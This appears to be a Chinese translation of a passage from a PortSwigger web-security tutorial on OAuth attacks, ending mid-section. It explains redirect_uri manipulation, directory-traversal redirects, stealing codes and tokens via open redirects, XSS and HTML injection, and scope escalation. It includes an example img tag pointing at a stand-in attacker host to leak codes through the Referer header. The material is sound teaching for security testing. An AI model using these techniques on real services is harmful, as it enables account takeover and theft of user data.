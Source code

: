 值得注意的是，你不应该把你的测试限制在只是孤立地探测`redirect_uri`参数上。在野外，你经常需要对几个参数的不同组合进行试验。有时改变一个参数会影响其他参数的验证。例如，将`response_mode`从`query`改为`fragment`，有时可以完全改变`redirect_uri`的解析，使你可以提交否则会被阻止的URI。同样，如果你注意到支持`web_message`的响应模式，这通常允许在`redirect_uri`中有更大范围的子域。

#### 通过代理页面窃取代码和访问令牌

面对更强大的目标，你可能会发现，无论你怎么尝试，你都无法成功地提交一个外部域作为`redirect_uri`。然而，这并不意味着是时候放弃了。

到了这个阶段，你应该对URI的哪些部分可以篡改有了比较好的了解。现在的关键是利用这些知识，试图在客户端应用程序本身中获得更广泛的攻击面。换句话说，试着找出你是否可以改变`redirect_uri`参数，使其指向白名单上的任何其他页面。

尝试找到可以成功访问不同子域或路径的方法。例如，默认的URI通常会在一个OAuth的特定路径上，如`/oauth/callback`，这不太可能有任何有趣的子目录。然而，你可以使用目录遍历的技巧来提供域上的任何任意路径。就像这样：

`https://client-app.com/oauth/callback/../../example/path`

在后端可能被解释为：

`https://client-app.com/example/path`

一旦你确定了哪些其他的页面你能够设置为重定向URI，你就应该审计它们是否有额外的漏洞，你可以潜在地利用这些漏洞来泄露代码或令牌。对于授权码流，你需要找到一个能让你访问查询参数的漏洞，而对于隐式授权类型，你需要提取URL片段。

为此，最有用的漏洞之一是开放重定向。你可以把它作为一个代理，把受害者连同他们的代码或令牌一起转发到一个攻击者控制的域，在那里你可以托管任何你喜欢的恶意脚本。

请注意，对于隐式授权类型，窃取访问令牌并不只是让你能够在客户端应用程序上登录到受害者的账户。由于整个隐式流程是通过浏览器进行的，你也可以使用该令牌对OAuth服务的资源服务器进行自己的API调用。这可能使你能够获取你通常无法从客户端应用程序的网页用户界面访问的敏感用户数据。

> 实验：[通过打开重定向窃取OAuth访问令牌](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)

除了开放重定向，你应该寻找任何其他的漏洞，允许你提取代码或令牌并将其发送到外部域。一些好的例子包括：

* **处理查询参数和URL片段的危险的JavaScript**

  例如，不安全的网络信息传递脚本可以很好地实现这一点。在某些情况下，你可能要确定一个较长的小工具链，让你在最终将令牌泄露给你的外部域之前，通过一系列的脚本来传递。 

* **XSS漏洞**

  尽管XSS攻击本身会产生巨大的影响，但在用户关闭标签或导航离开之前，攻击者通常会有一小段时间可以访问用户的会话。由于`HTTPOnly`属性通常用于会话cookie，攻击者通常也无法使用XSS直接访问它们。然而，通过窃取OAuth代码或令牌，攻击者可以在他们自己的浏览器中获得对用户账户的访问。这使他们有更多的时间来探索用户的数据并进行有害的操作，大大增加了XSS漏洞的严重性。

* **HTML注入漏洞**

  在不能注入JavaScript的情况下（例如，由于CSP的限制或严格的过滤），你可能仍然能够使用一个简单的HTML注入来窃取授权码。如果你能将`redirect_uri`参数指向一个可以注入你自己的HTML内容的页面，你可能就能通过`Referer`头泄露代码。例如，考虑下面这个img元素：`<img src="evil-user.net">`。当试图获取这张图片时，一些浏览器（如Firefox）会在请求的`Referer`头中发送完整的URL，包括查询字符串。

> 实验：[通过代理页面窃取OAuth访问令牌](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)

#### 有缺陷的范围验证

在任何OAuth流程中，用户必须根据授权请求中定义的范围批准请求的访问。由此产生的令牌只允许客户端应用程序访问由用户批准的范围。但在某些情况下，由于OAuth服务的验证有缺陷，攻击者有可能“升级”访问令牌（无论是偷来的还是用恶意的客户端应用程序获得的），使其具有额外的权限。这样做的过程取决于授权的类型。

范围升级：授权码流程

使用授权码授权类型，用户的数据是通过安全的服务器到服务器的通信来请求和发送的，第三方攻击者通常无法直接操纵。然而，仍有可能通过在OAuth服务中注册他们自己的客户端应用程序来实现同样的结果。

例如，假设攻击者的恶意客户端应用程序最初使用`openid email`范围请求访问用户的电子邮件地址。在用户批准这个请求后，恶意的客户端应用程序会收到一个授权码。由于攻击者控制了他们的客户端应用程序，他们可以在code/token交换请求中添加另一个`scope`参数，包含额外的`profile`范围：
